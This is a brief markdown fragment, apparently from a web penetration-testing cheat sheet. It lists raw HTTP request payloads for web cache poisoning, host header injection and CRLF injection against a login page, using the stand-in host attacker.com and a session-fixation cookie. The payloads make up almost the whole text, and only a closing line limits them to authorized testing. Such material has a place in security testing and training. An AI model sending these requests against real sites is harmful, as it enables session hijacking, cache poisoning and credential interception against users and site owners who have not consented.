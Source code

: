 ## Advanced Techniques

### Web Cache Poisoning
```http
GET /login?callback=attacker_js HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com
```

### Host Header Injection
```http
POST /login HTTP/1.1
Host: attacker.com
Content-Type: application/x-www-form-urlencoded
Referer: https://target.com

username=admin&password=admin
```

### CRLF Injection
```http
GET /login?url=https://target.com/%0D%0ASet-Cookie:%20SESSIONID=attacker_session HTTP/1.1
Host: target.com
```

Remember to only use these payloads for authorized security testing. Unauthorized testing may violate laws and regulations. Always obtain proper permission before conducting security assessments.